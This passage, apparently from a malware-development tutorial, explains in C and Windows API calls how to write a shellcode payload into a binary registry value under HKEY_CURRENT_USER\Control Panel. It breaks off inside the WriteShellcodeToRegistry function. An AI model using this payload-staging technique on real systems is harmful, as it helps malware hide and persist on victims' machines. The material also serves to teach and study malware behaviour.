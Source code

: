 ```c
STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);
```

#### Setting Registry Value

Next, the [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa) WinAPI is used which takes the opened handle from `RegOpenKeyExA` and creates a new value that is based on the second parameter, `REGSTRING`. It will also write the payload to the newly created value.

```c
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,            // A handle to an open registry key
  [in, optional] LPCSTR     lpValueName,     // The name of the value to be set (REGSTRING constant)
                 DWORD      Reserved,        // Set to 0
  [in]           DWORD      dwType,          // The type of data pointed to by the lpData parameter
  [in]           const BYTE *lpData,         // The data to be stored
  [in]           DWORD      cbData           // The size of the information pointed to by the lpData parameter, in bytes
);
```

It is also worth noting that the fourth parameter specifies the data type for the registry value. In this case, it's set to `REG_BINARY` since the payload is simply a list of bytes but the complete list of data types can be found [here](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-value-types).

```c
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);
```

#### Closing Registry Key Handle

Finally, [RegCloseKey](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey) is used to close the handle of the registry key that was opened.

```c
LSTATUS RegCloseKey(
  [in] HKEY hKey // Handle to an open registry key to be closed
);
```

#### Writing To The Registry - Code Snippet

```c
// Registry key to read / write
#define     REGISTRY            "Control Panel"
#define     REGSTRING           "MalDevAcademy"

BOOL WriteShellcodeToRegistry(IN PBYTE pShellcode, IN DWORD dwShellcodeSize) {

    BOOL        bSTATE  = TRUE;
    LSTATUS     STATUS  = NULL;
    HKEY        hKey    = NULL;

    printf("[i] Writing 0x%p [ Size: %ld ] to \"%s\\%s\" ... ", pShellcode, dwShellcodeSize, REGISTRY, REGSTRING);

    STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);
    if (ERROR_SUCCESS != STATUS) {
        printf("[!] RegOpenKeyExA Failed With Error : %d\n", STATUS);
        bSTATE = FALSE; goto _EndOfFunction;
    }

    STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);
    if (ERROR_SUCCESS != STATUS){
        printf("[!] RegSetValueExA Failed With Error : %d\n", STATUS);
```